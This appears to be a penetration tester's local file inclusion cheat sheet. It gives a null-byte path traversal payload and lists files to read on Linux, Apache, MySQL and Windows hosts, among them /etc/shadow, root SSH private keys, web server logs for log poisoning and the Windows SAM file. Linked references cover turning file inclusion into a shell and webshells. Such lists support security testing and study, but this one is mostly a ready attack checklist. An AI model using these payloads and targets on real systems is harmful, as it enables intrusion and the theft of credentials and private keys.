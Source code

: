 <https://evi1us3r.wordpress.com/lfi-cheat-sheet/>
<https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal>
<https://highon.coffee/blog/lfi-cheat-sheet/>
<https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf>

LFI Cheat Sheet  
**Useful LFI files**
../../../../../etc/passwd%00
 
**Linux:**
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa
 
**Apache:**
Configuration Files:
/etc/apache2/apache2.conf
/usr/local/etc/apache2/httpd.conf
/etc/httpd/conf/httpd.conf
 
**Log** **Files**:
Red Hat/CentOS/Fedora Linux-   /var/log/httpd/access_log
Debian/Ubuntu-   /var/log/apache2/access.log
FreeBSD-   /var/log/httpd-access.log
 
**Generic**:
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache2/access.log
/var/log/apache/error.log
 
**MySql:**
/var/lib/mysql/mysql/user.frm
/var/lib/mysql/mysql/user.MYD
/var/lib/mysql/mysql/user.MYI
 
**Windows:**
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM
/windows/panther/unattended.xml
/windows/panther/unattend/unattended.xml

  Local File Inclusion/Remote File Inclusion (LFI/RFI) 
-  <http://www.grobinson.me/single-line-php-script-to-gain-shell/>
- <https://webshell.co/>
- <https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf>
- <https://osandamalith.com/2015/03/29/lfi-freak/>
- <https://wiki.apache.org/httpd/DistrosDefaultLayout#Debian.2C_Ubuntu_.28Apache_httpd_2.x.29>
- <https://roguecod3r.wordpress.com/2014/03/17/lfi-to-shell-exploiting-apache-access-log/>
- <https://attackerkb.com/Windows/blind_files>
- <https://digi.ninja/blog/when_all_you_can_do_is_read.php>
- <https://updatedlinux.wordpress.com/2011/05/12/list-of-important-files-and-directories-in-linux-redhatcentosfedora/>
- <https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/>
- <https://github.com/tennc/fuzzdb/blob/master/dict/BURP-PayLoad/LFI/LFI_InterestingFiles-NullByteAdded.txt> 
- <http://www.r00tsec.com/2014/04/useful-list-file-for-local-file.html> 
- <https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/> 
- <https://github.com/tennc/fuzzdb/blob/master/dict/BURP-PayLoad/LFI/LFI-FD-check.txt> 